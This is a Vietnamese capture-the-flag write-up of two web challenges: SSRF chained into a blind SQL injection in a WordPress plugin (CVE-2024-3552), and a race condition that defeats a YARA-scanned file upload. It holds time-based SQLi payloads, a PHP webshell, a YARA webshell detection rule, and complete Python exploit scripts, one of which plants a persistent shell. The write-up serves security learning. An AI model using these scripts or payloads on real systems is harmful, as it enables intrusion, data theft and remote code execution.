







## Phân tích challenge (WEB-URL-CHECKER)
Đầu tiên vào challenge trang web thì web sẽ hiển thị cho chúng ta một link nhập URL thì ta thử nhập một đường dẫn như http://google.com và trả về trạng thái status 405 như hình bên dưới: <br>
 <br>
Và đầu tiên mình sẽ xem thử flag nằm ở đâu thì trong entrypoint.sh có wp option add chèn một hàng vào bảng wp_options (tiền tố bảng ở script là wp_), nên nội dung ctf_flag nằm ở wp_options.option_value: <br>
```note
  wp option add ctf_flag 'cybercon{REDACTED}' --allow-root || true
```
Rồi bây giờ xem thử mã nguồn index.php Ở đây nó lấy 2 tham số u và b và kiểm tra User-Agent không phải số 42 thì in ra dòng Do you now... sau đó nó khởi nó dùng regex để kiểm tra đầu vào http và https sau đó nó cấu hình thực hiện request bằng Curl sau đó hiển thị trạng thái kết quả chúng ta bằng status của http chứ không in ra nội dung: <br>
```php
$url = $_GET['u'];
$raw = $_GET['b'] ?? '';

if (!isset($_SERVER['HTTP_USER_AGENT']) || stripos($_SERVER['HTTP_USER_AGENT'], '42') === false) {
    echo 'Do you know about the secret number?';
    exit;
}

if (!preg_match('#^https?://#i', $url)) {
    echo 'There is no such planet :(';
    exit;
}

$ch = curl_init($url);
curl_setopt_array($ch, [
    CURLOPT_RETURNTRANSFER => true,
    CURLOPT_FOLLOWLOCATION => true,
    CURLOPT_TIMEOUT        => 30,
    CURLOPT_POSTFIELDS     => $raw,
]);

curl_exec($ch);
$http_code = curl_getinfo($ch, CURLINFO_HTTP_CODE);
curl_close($ch);

$cls = ($http_code >= 200 && $http_code < 300) ? 'ok'
     : ($http_code >= 400 ? 'fail' : 'warn');
echo '<!doctype html><meta charset="utf-8"><link rel="stylesheet" href="/space.css">
<div class="container"><h1><span class="logo-dot"></span>URL Checker</h1>
<div class="status ' . $cls . '">Done (Status Code ' . $http_code . ')</div></div>';
``` 
Ở file Apache-cms-local.conf như sau nó chỉ cho phép truy cập nếu chúng ta là localhost vậy khi nghe tới đây mình nghĩ ngay tới ssrf: <br>
```note
<Location "/cms">
    Require local
</Location>
```
Sau quá trình xem xét tất cả các file có 1 thư mục Web-Directory-Free nó là một Web Của WordPress và sau khi kiểm tra kĩ thì mình phát hiện ở file /classes/ajax_controller.php ở hàm get_map_marker_info() có dính lỗi SQL Injection nó lấy biến location_ids dưới dạng mảng và truyền trực tiếp vào mà không có sự lọc đầu vào và bằng cách đó mình có thể SSRF vào /cms của wordpress sau đó lợi dụng hàm này bị lỗi và khai thác SQL và do chỉ trả về trạng thái status code nên đây có thể trở thành là blind SQL: <br>
```php
[....]
public function get_map_marker_info() {
		global $wpdb;

		if (isset($_POST['locations_ids'])) {
			
			$locations_option_array = array();
			
			$locations_ids = w2dc_getValue($_POST, 'locations_ids');
			foreach ($locations_ids AS $location_id) {
				$map_id = w2dc_getValue($_POST, 'map_id');
				$show_summary_button = w2dc_getValue($_POST, 'show_summary_button');
				$show_readmore_button = w2dc_getValue($_POST, 'show_readmore_button');
	
				$row = $wpdb->get_row("SELECT * FROM {$wpdb->w2dc_locations_relationships} WHERE id=".$location_id, ARRAY_A);
[...]
```
Và sau khi tìm kiếm thông tin mình phát hiện được wordpress này dính CVE và có lỗ hổng SQL ở Method: get_map_marker_info như trên <a href="https://github.com/truonghuuphuc/CVE-2024-3552-Poc?tab=readme-ov-file">CVE-2024-3552</a> sau đó mình thử nghiệm bằng cách ssrf vào wordpress sau đó truyền payload thông qua tham số b. <br>
Và cần double encoding payload trước khi gửi request <br>
Payload 1: action=w2dc_get_map_marker_info&locations_ids%5B%5D=(select+if(1=2,sleep(6),0)+from+(select+1)x) <br>
<br>
Payload 2: action=w2dc_get_map_marker_info&locations_ids%5B%5D=(select+if(1=1,sleep(6),0)+from+(select+1)x) <br>
 <br>
Vậy đã thành công inject được lệnh thành công và tiếp theo có thể sử dụng blind_sql với sleep để trích xuất flag <br>
## Khai thác
Với những điều đã nói trên mình sẽ viết tập lệnh python khai thác và bảng ctf_flag mình sẽ chuyển sang dạng hex tranh dấu nháy ' payload đi qua URL decode <br>
```python

import time, requests, string
from urllib.parse import quote_plus

class Exploit:
    def __init__(self, baseURL, timeout=40, sleep_exec=6):
        self.baseURL = baseURL.rstrip("/")
        self.u = "http://127.0.0.1:80/cms/wp-admin/admin-ajax.php"
        self.timeout = timeout
        self.sleep = int(sleep_exec)
        self.header = {"User-Agent": "42", "Accept-Encoding": "identity"}
        self.hex_ctf_flag = "0x6374665f666c6167"
        self.patern_flag = "cybercon{"
        self.charset = string.ascii_uppercase + string.digits + "}"

    def encode_char(self, body: str):
        enc = quote_plus(body, safe="")       
        return enc.replace("%5B%5D", "%255B%255D")  

    def buil_url(self, b_encoded: str):
        return f"{self.baseURL}/?u={self.u}&b={b_encoded}"

    def send_request(self, b_encoded: str) -> float:
        url = self.buil_url(b_encoded)
        start = time.perf_counter()
        requests.get(url, headers=self.header, timeout=self.timeout)
        return time.perf_counter() - start
    
    def base_line(self) -> str:
        body = "action=w2dc_get_map_marker_info&locations_ids[]=1"
        return self.encode_char(body)

    def char_encode(self, pos: int, ch: str):
        hexch = ch.encode().hex()
        cond = (f"substring((select+option_value+from+wp_options+where+option_name={self.hex_ctf_flag}"
                f"+limit+1),{pos},1)=0x{hexch}")
        body = ("action=w2dc_get_map_marker_info&locations_ids[]="
                f"(select+if({cond},sleep({self.sleep}),0)+from+(select+1)x)")
        return self.encode_char(body)
    
    def extract_flag(self, max_len=64):
        base_time = min(self.send_request(self.base_line()) for _ in range(2))
        diffTime = base_time + self.sleep * 0.6
        print(f"[*] BaseTime ~{base_time:.2f}s; diffTime ~{diffTime:.2f}s")
        flag = self.patern_flag
        start_pos = len(self.patern_flag) + 1
        print(f"[*] Brute Force Flag: '{self.patern_flag}'")

        for pos in range(start_pos, start_pos + max_len):
            found = False
            for ch in self.charset:
                time = self.send_request(self.char_encode(pos, ch))
                if time >= diffTime:
                    flag += ch
                    print(f"[+] Found Char {pos}: '{ch}'  (DiffTime={time:.2f}s)  -> {flag}")
                    found = True
                    break
            if not found:
                print(f"[*] Stop at pos {pos}.")
                break
            if flag.endswith('}'):
                print("[*] Found Char '}' — Done Flag.")
                break

        print(("[+] DONE FLAG: " + flag) 
              if flag.endswith('}')
                else "[-] NOT FOUND FLAG. TRY AGAIN")

if __name__ == "__main__":
    BASE_URL = "http://127.0.0.1:8000"
    exploit = Exploit(BASE_URL)
    exploit.extract_flag()
```
Get FLAG thành công như hình bên dưới: <br>


## Phân tích challenge (Web-Safe-Upload)
Khi vào trang chủ sẽ có chức năng upload file như hình bên dưới <br>
 <br>
Mình sẽ upload 1 file bất kì lên xem như nào và thường với chức năng upload này mình hay thử thay đổi tên file php rồi đưa web shell vào RCE xem nhưng không server đã loại bỏ chúng như bên dưới và cùng đi sâu vào mã nguồn xem thử.<br>
<br>
Sau khi xem xét mã nguồn trước tiên mình xem lá cờ nằm chỗ nào thì ở dockerfile lá cờ được tạo ra 8 byte ngẫu nhiên lưu vào file tạm như dưới vậy từ đó bằng cách nào chúng ta cần RCE để lấy được lá cờ đó đk? <br>
```dockerfile
RUN echo 'cybercon{REDACTED}' > /$(mktemp -u XXXXXXXXXXXX).txt
```
Mình xem qua tệp rule như sau nó sẽ loại bỏ tất cả rất kĩ đầu vào chúng ta với nội dung chứa <?php hay các lệnh thực thi khác rất nhiều như bên dưới và cùng đi xem xét ở chức năng upload.php tệp nãy sẽ ap dụng vào nó như thế nào <br>
```yara
rule Suspicious_there_is_no_such_text_string_in_the_image
{
  meta:
    description = "Broader PHP webshell heuristics for CTF (fast, no backtick regex)"
    severity = "high"
  
  strings:
    $php_any     = /<\?(php|=)?/ nocase
    $php_script  = "<script language=\"php\">" nocase

    $eval1     = "eval" nocase
    $assert1   = "assert" nocase
    $system1   = "system" nocase
    $exec1     = "exec" nocase
    $shexec1   = "shell_exec" nocase
    $passthru1 = "passthru" nocase
    $popen1    = "popen" nocase
    $procopen1 = "proc_open" nocase

    $cmd1      = "cmd" nocase
    $cmd2      = "command" nocase

    $cuf       = "call_user_func(" nocase
    $cufa      = "call_user_func_array(" nocase
    $reflf     = "ReflectionFunction" nocase
    $crefunc   = "create_function(" nocase
    $preg_e    = /preg_replace\s*\(\s*[^,]*['"][^'"]*e['"]/ nocase

    // wrappers & inputs
    $php_input   = "php://input" nocase
    $php_filter  = "php://filter" nocase
    $phar        = "phar://" nocase
    $zipwrap     = "zip://" nocase
    $superglobal = /\$_(GET|POST|REQUEST|COOKIE|FILES|SERVER)\s*\[/ nocase

    // short code
    $short_bt_post   = "<?=`$_POST[" nocase
    $short_bt_get    = "<?=`$_GET[" nocase
    $short_bt_req    = "<?=`$_REQUEST[" nocase
    $short_bt_cookie = "<?=`$_COOKIE[" nocase

    // obfuscators
    $base64    = "base64_decode(" nocase
    $rot13     = "str_rot13(" nocase
    $inflate   = "gzinflate(" nocase
    $gzuncomp  = "gzuncompress(" nocase
    $hex2bin   = "hex2bin(" nocase
    $urldec    = "urldecode(" nocase
    $rawurl    = "rawurldecode(" nocase
    $strrev    = "strrev(" nocase

    // re
    $assign_func = /\$[A-Za-z_]\w*\s*=\s*["'](system|exec|shell_exec|passthru|popen|proc_open)["']/ nocase
    $assign_concat_system = /\$[A-Za-z_]\w*\s*=\s*["']sys["']\s*\.\s*["']tem["']/ nocase
    $var_call_super = /\$[A-Za-z_]\w*\s*\(\s*\$_(GET|POST|REQUEST|COOKIE)\s*\[/ nocase
    $assign_concat_multi = /\$[A-Za-z_]\w*\s*=\s*\$[A-Za-z_]\w*\s*\.\s*["'](tem|xec|shell_exec)["']/ nocase
    $assign_concat_more = /\$[A-Za-z_]\w*\s*=\s*(\$[A-Za-z_]\w*|\s*["']s["']\s*\.\s*["']ys["'])\s*\.\s*["']tem["']/ nocase


  condition:
    ( $php_any or $php_script )
    or
    ( 1 of ( $eval1, $assert1, $system1, $exec1, $shexec1, $passthru1, $popen1, $procopen1,
             $cuf, $cufa, $reflf, $crefunc, $preg_e, $cmd1, $cmd2,
             $short_bt_post, $short_bt_get, $short_bt_req, $short_bt_cookie)
      or ( $assign_func and $var_call_super )
      or ( $assign_concat_system and $var_call_super )
      or ( $assign_concat_multi )
      or ( $assign_concat_more )
    )
    and
    ( 1 of ( $base64, $rot13, $inflate, $gzuncomp, $hex2bin, $urldec, $rawurl, $strrev,
             $php_input, $php_filter, $phar, $zipwrap, $superglobal ) )
}
```
Và đặc biệt mình chú ý ở file upload.php ở đây đầu tiên nó sẽ có các rule và yara được bảo vệ ở đây nó sẽ lưu file chúng ta với 1 mã số ngẫu nhiên gồm 4 chữ số với đuôi extension chúng ta upload sau đó nó sẽ upload file của chúng ta lên <br>
```php
<?php
declare(strict_types=1);
ini_set('display_errors', '0');

$TMP_DIR = __DIR__ . '/tmp';
$DST_DIR = __DIR__ . '/uploads';
$YARA    = '/usr/bin/yara';
$RULES   = '/var/app/rules/i_dont_like_webshell.yar';

function four_digits(): string {
  return str_pad((string)random_int(0, 9999), 4, '0', STR_PAD_LEFT);
}
function ext_of(string $name): string {
  $e = strtolower(pathinfo($name, PATHINFO_EXTENSION) ?? '');
  return $e ? ".$e" : '';
}
function bad($m,$c=400){ http_response_code($c); echo htmlspecialchars($m,ENT_QUOTES,'UTF-8'); exit; }

if ($_SERVER['REQUEST_METHOD'] !== 'POST') bad('POST only',405);
if (!isset($_FILES['file']) || !is_uploaded_file($_FILES['file']['tmp_name'])) bad('no file');

$orig = $_FILES['file']['name'] ?? 'noname';
$ext  = ext_of($orig);
$rand = four_digits();
$tmp_path = $TMP_DIR . '/' . $rand . $ext;

if (!move_uploaded_file($_FILES['file']['tmp_name'], $tmp_path)) bad('save failed',500);
chmod($tmp_path, 0644);
```
Sau đó nó sẽ sử dụng sleep và lọc escapeshellarg bảo vệ đầu vào và đưa vào hàm exec để thực thi nếu khi yara quét phát hiện được nội dung có trong tệp yara nó sẽ loại bỏ tệp ngay sau đó... <br>
```php
usleep(800 * 1000);

$out = []; $ret = 0;
$cmd = sprintf('%s -m %s %s 2>&1',
  escapeshellarg($YARA),
  escapeshellarg($RULES),
  escapeshellarg($tmp_path)
);
exec($cmd, $out, $ret);

$stdout   = implode("\n", $out);
$ruleName = 'Suspicious_there_is_no_such_text_string_in_the_image';
$hitByName = (strpos($stdout, $ruleName) !== false);

if ($ret === 1 || $hitByName) {
  @unlink($tmp_path);
  echo "Upload scanned: MALWARE detected. File removed.<br><a href=/>back</a>";
  exit;
} elseif ($ret === 0) {
  $dst = $DST_DIR . '/' . basename($tmp_path);
  if (!@rename($tmp_path, $dst)) { @copy($tmp_path, $dst); @unlink($tmp_path); }
  echo "Upload scanned: OK. Moved to <a href=./uploads/" . htmlspecialchars(basename($dst)) . ">View Guide</a>";
  exit;
} else {
  @unlink($tmp_path);
  bad('scan error',500);
}
```
```dockerfile
RUN mkdir -p /var/www/html/tmp /var/www/html/uploads /var/app/rules \
 && chown -R www-data:www-data /var/www/html/tmp /var/www/html/uploads

COPY public/ /var/www/html/
COPY rules/  /var/app/rules/
```
Và sau khi xem xét mình thử mọi cách để bypass upload shell php nhưng tệp yara sẽ quét nên khó bypass chúng và sau đó mình xem kĩ lại mình phát hiện được 1 vấn đề đoạn này có thể race condition là usleep(800 * 1000) trước khi YARA bắt đầu quét file — tức là ứng dụng tạm thời dừng ~800ms trước khi kiểm tra nội dung vừa upload. <br>
Trong khoảng thời gian đó, file đã được ghi hoàn chỉnh vào thư mục web-public tạm thời (ví dụ /public/tmp/<4-chữ-số>.). <br>
Vì file đã nằm trong web-public, Apache có thể thực thi file đó (ví dụ http://host/tmp/1234.php) trước khi YARA kịp quét và xóa nó. Nếu YARA chấp nhận file (không phát hiện rule), hệ thống sẽ đổi tên / di chuyển file tạm sang thư mục đích, ví dụ /public/uploads hoặc /var/www/html/uploads, làm cho webshell ghi thành công <br>
## Khai Thác
Và nói như cách trên mình sẽ viết tập lệnh python để race condition upload webshell lên trước khi yara quét và xóa nó: <br>
```python
from dataclasses import dataclass
from typing import Optional, Tuple, List, Dict
import requests
import argparse
import base64
import random
import sys
import threading
import time
import logging
from concurrent.futures import ThreadPoolExecutor, as_completed
from urllib.parse import quote
from functools import partial

WEB_SHELL = "<?php system($_GET[0]); ?>"

logger = logging.getLogger("ExploitRunner")
logging.basicConfig(level=logging.INFO, format="[%(levelname)s] %(message)s")

@dataclass
class Config:
    base: str
    upload: str = "/upload.php"
    tmp: str = "/tmp"
    cmd: str = "id"
    threads: int = 300
    upload_interval: float = 0.0
    field_name: str = "file"
    persist: bool = False
    timeout: float = 0.8
    php: str = WEB_SHELL
    pool_size: int = 1000
    show_response: bool = True 


class Exploit:
    def __init__(self, config: Config):
        self.config = config
        self.stop_evt = threading.Event()
        self.session = self._make_session(pool_size=config.pool_size, timeout=config.timeout)
        self.upload_thread: Optional[threading.Thread] = None
        self.base = config.base.rstrip("/")
        self.upload_url = f"{self.base}{config.upload}"
        self.tmp_path = config.tmp if config.tmp.startswith("/") else "/" + config.tmp

    def _make_session(self, pool_size: int = 1000, timeout: float = 1.0) -> requests.Session:
        s = requests.Session()
        adapter = requests.adapters.HTTPAdapter(
            pool_connections=pool_size, pool_maxsize=pool_size, max_retries=0
        )
        s.mount("http://", adapter)
        s.mount("https://", adapter)
        s.headers.update({"User-Agent": "yara-race-exploit/1.0"})
        s.request = partial(s.request, timeout=timeout)
        return s

    def start_upload_loop(self) -> None:
        if self.upload_thread and self.upload_thread.is_alive():
            logger.debug("Upload thread already running")
            return
        self.upload_thread = threading.Thread(
            target=self._upload_loop,
            args=(self.session, self.upload_url, self.config.php, self.config.upload_interval, self.stop_evt, self.config.field_name),
            daemon=True,
            name="UploadThread",
        )
        self.upload_thread.start()
        logger.info("Upload loop started")

    def _upload_loop(self, session: requests.Session, upload_url: str, php_code: str,
                     interval: float, stop_evt: threading.Event, field_name: str = "file") -> None:
        files = {field_name: ("shell.php", php_code.encode("utf-8"), "application/x-php")}
        i = 0
        while not stop_evt.is_set():
            try:
                r = session.post(upload_url, files=files, allow_redirects=True)
                if i % 25 == 0:
                    logger.debug(f"[upload] status={r.status_code}")
            except Exception as e:
                if i % 25 == 0:
                    logger.debug(f"[upload] error: {e}")
            i += 1
            if interval > 0:
                time.sleep(interval)

    def _probe_one(self, base: str, tmp_path: str, num: str, cmd: str) -> Optional[Tuple[str, int, Dict[str,str], str]]:
        url = f"{base.rstrip('/')}{tmp_path}/{num}.php?0={quote(cmd, safe='')}"
        try:
            r = self.session.get(url, allow_redirects=True)
            if r.status_code == 200 or "uid=" in r.text or "uid =" in r.text:
                headers = {k: v for k, v in r.headers.items() if k.lower() in ("content-type", "content-length", "server", "date")}
                return url, r.status_code, headers, r.text
        except Exception:
            pass
        return None

    def _generate_numbers(self) -> List[str]:
        return [f"{i:04d}" for i in range(10000)]

    def bruteforce(self, cmd: Optional[str] = None) -> Tuple[Optional[str], Optional[str]]:
        cmd = cmd or self.config.cmd
        numbers = self._generate_numbers()
        logger.info(f"Starting bruteforce on {self.base}{self.tmp_path}/[0000-9999].php")
        logger.info(f"Threads={self.config.threads}, timeout={self.config.timeout}s, upload_interval={self.config.upload_interval}s")
        while not self.stop_evt.is_set():
            random.shuffle(numbers)
            with ThreadPoolExecutor(max_workers=self.config.threads) as ex:
                futures = {ex.submit(self._probe_one, self.base, self.tmp_path, n, cmd): n for n in numbers}
                try:
                    for fut in as_completed(futures):
                        if self.stop_evt.is_set():
                            break
                        try:
                            res = fut.result()
                        except Exception:
                            continue
                        if res:
                            url, status, headers, text = res
                            print("\n" + "="*60)
                            print(f"[FOUND] {url}  (HTTP {status})")
                            if headers:
                                print("-- Response headers --")
                                for k, v in headers.items():
                                    print(f"{k}: {v}")
                            if self.config.show_response:
                                print("-- Response --")
                                cap = 64 * 1024
                                body = text if len(text) <= cap else text[:cap] + "\n...[truncated]"
                                print(body)
                            print("="*60 + "\n")
                            logger.info(f"[FOUND NUMBER] {url}")
                            self.stop_evt.set()
                            return url, text
                except Exception as e:
                    logger.debug(f"Bruteforce loop exception: {e}")
        return None, None

    def upload_shell_persist(self, hit_url: str, payload_path: str = "/var/www/html/uploads/shell.php") -> None:
        try:
            b64 = base64.b64encode(self.config.php.encode()).decode()
            php_cmd = f"php -r 'file_put_contents(\"{payload_path}\", base64_decode(\"{b64}\"));'"
            self.session.get(f"{hit_url}&stage=persist", params={}, allow_redirects=False)
            r = self.session.get(f"{hit_url.split('?')[0]}?0={quote(php_cmd, safe='')}")
            logger.info(f"[persist] Write Shell To {payload_path}")
            test = self.session.get(f"{self.base.rstrip('/')}/uploads/{payload_path.split('/')[-1]}?0=id")
            if test.status_code == 200:
                logger.info(f"[persist] OK: {test.text.strip()}")
            else:
                logger.warning(f"[persist] test HTTP {test.status_code}")
        except Exception as e:
            logger.error(f"[persist] error: {e}")

    def stop(self) -> None:
        self.stop_evt.set()
        if self.upload_thread:
            self.upload_thread.join(timeout=1.0)
        logger.info("Stopped")

    def run(self) -> None:
        try:
            self.start_upload_loop()
            hit_url, text = self.bruteforce()
            if hit_url:
                logger.info(f"[+] RCE Success At: {hit_url}")
                if self.config.persist:
                    self.upload_shell_persist(hit_url)
            else:
                logger.info("[-] No found number.")
        except KeyboardInterrupt:
            logger.info("Interrupted by user.")
        finally:
            self.stop()

def parse_args() -> Config:
    ap = argparse.ArgumentParser(description="Exploit Race Condition In Upload WebShell (OOP refactor).")
    ap.add_argument("--base", required=True, help="Base URL, http://TARGET")
    ap.add_argument("--upload", default="/upload.php", help="Upload path")
    ap.add_argument("--tmp", default="/tmp", help="Temp web path where files appear ")
    ap.add_argument("--cmd", default="id", help="Command to execute via ?0=")
    ap.add_argument("--threads", type=int, default=300, help="Concurrent GET workers over /tmp/0000..9999")
    ap.add_argument("--upload-interval", type=float, default=0.0, help="Sleep seconds between uploads (default: 0)")
    ap.add_argument("--field-name", default="file", help="Form field name for upload (default: file)")
    ap.add_argument("--persist", action="store_true", help="After first HIT, drop persistent /uploads/p.php")
    ap.add_argument("--timeout", type=float, default=0.8, help="HTTP timeout seconds")
    ap.add_argument("--php", default=WEB_SHELL, help="PHP webshell content (default: system($_GET[0]))")
    ap.add_argument("--no-show-response", dest="show_response", action="store_false", help="Do not print full response body on success")
    args = ap.parse_args()
    config = Config(
        base=args.base,
        upload=args.upload,
        tmp=args.tmp,
        cmd=args.cmd,
        threads=args.threads,
        upload_interval=args.upload_interval,
        field_name=args.field_name,
        persist=args.persist,
        timeout=args.timeout,
        php=args.php,
        pool_size=max(64, args.threads * 2),
        show_response=args.show_response,
    )
    return config
def main():
    config = parse_args()
    runner = Exploit(config)
    runner.run()
if __name__ == "__main__":
    main()
```
Run Python Với Lệnh Sau: <br>
```note
python3 <filename>.py --base http://<HOST>:<PORT> --upload /upload.php --tmp /tmp --cmd "<command-your>" --threads 300 --upload-interval 0.0 --persist
```
Và đã thành công ghi webshell và thực thi lệnh: <br>
 <br>
Tiếp theo cùng sử dụng lệnh ls / để kiểm tra flag có file ngẫu nhiên: <br>
 <br>
Get FLAG thành công như hình bên dưới: <br>

